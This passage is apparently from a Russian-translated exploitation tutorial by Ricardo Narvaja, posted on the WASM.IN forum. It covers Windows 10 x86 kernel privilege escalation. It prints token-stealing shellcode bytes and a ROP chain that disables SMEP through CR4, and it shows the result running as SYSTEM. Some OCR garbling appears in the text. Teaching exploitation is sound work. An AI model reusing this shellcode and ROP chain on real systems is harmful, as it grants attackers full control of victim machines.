 \# WIN 10 RS2 X86 TOKEN\_OFFSET = 0XFC  
\# WIN 07 SP1 X86 TOKEN\_OFFSET = 0XF8  
SHELLCODE += **"\X8B\X90\XFC\X00\X00\X00"** \# MOV EDX, \[EAX + TOKEN\_OFFSET\]  
SHELLCODE += **"\X89\X91\XFC\X00\X00\X00"** \# MOV \[ECX + TOKEN\_OFFSET\], EDX  
  
\# --\[ RECOVER\]  
SHELLCODE += **"\X61"** \# POPAD  
SHELLCODE += **"\X31\XC0"** \# RETURN NTSTATUS = STATUS\_SUCCESS  
**SHELLCODE += "\XC2\X08" \# RET**  
  
Давайте попробуем это.  
  
![55.png](https://wasm.in/attachments/55-png.4356/)  
  
Куда программа достигнет этой точки, будет ли она работать дальше? Нет.  
  
Весьма вероятно, что дело в **POP** **EBP** когда не происходит переполнения.  
  
![56.png](https://wasm.in/attachments/56-png.4357/)   
  
Эта инструкция удаляет со стека значение**.**  
  
![57.png](https://wasm.in/attachments/57-png.4358/)  
  
**ESP** устанавливается в это значение.  
  
Я поменяю здесь только **RETN**, а не **RETN**, поэтому происходит возврат и тогда я могу добавить **EBP** в свой шеллкод.  
  
INPUT = STRUCT.PACK\("&lt;I", NT + 0X519770\) \*2 \# RET  
INPUT += STRUCT.PACK\("&lt;I", NT + 0X11FC10\) \# MOV EAX, CR4 - RET  
INPUT += STRUCT.PACK\("&lt;I", NT + 0X51976F\) \# POP ECX; RET  
INPUT += STRUCT.PACK\("&lt;I", 0XFFEFFFFF\) \# TO DISABLE SMEP  
INPUT += STRUCT.PACK\("&lt;I", NT + 0X50095C\) \# AND EAX,ECX; RET  
INPUT += STRUCT.PACK\("&lt;I", NT + 0X11FC1E\) \# MOV **CR4,EAX; RET**  
INPUT += STRUCT.PACK\("&lt;I", INT\(BUF\)\) \# A SHELLCODE  
  
И в начале моего шеллкода я помещаю **POP** **EBP** , чтобы вернуть значение из стека перед вызовом **PUSHAD**.  
  
Теперь, если уже всё работает отлично, я запускаю блокнот, потому что **MICROSOFT** в **WINDOWS** **10** иногда ограничивает использование калькулятора.  
  
![58.png](https://wasm.in/attachments/58-png.4359/)   
  
Здесь мы видим пользователя **SYSTEM**, другими словами мы смогли отключить **SMEP** и повысить привилегии в **32**-битной версии **WINDOWS** **10**.  
  
В **64** битных системах метод тот же. Конечно, вам нужно адаптировать смещения структур. Также вы должны сохранить значение регистра **CR4**, чтобы сделать вызов еще раз, чтобы вызвать второй **ROP**, чтобы восстановить значение, потому что, не в **64** битных системах **PATCH** **GUARD** время от времени сканирует и осознает изменения и происходит сбой системы, но сам по себе это тот же самый трудоемкий метод, но идея та же.  
  
**=======================================================  
Автор текста: Рикардо Нарваха** - **Ricardo** **Narvaja** \(**@ricnar456**\)  
Перевод на русский с испанского: **Яша\_Добрый\_Хакер\(Ростовский фанат Нарвахи\).**  
Перевод специально для форума системного и низкоуровневого программирования — **WASM.IN  
05.01.2018  
Версия 1.0**

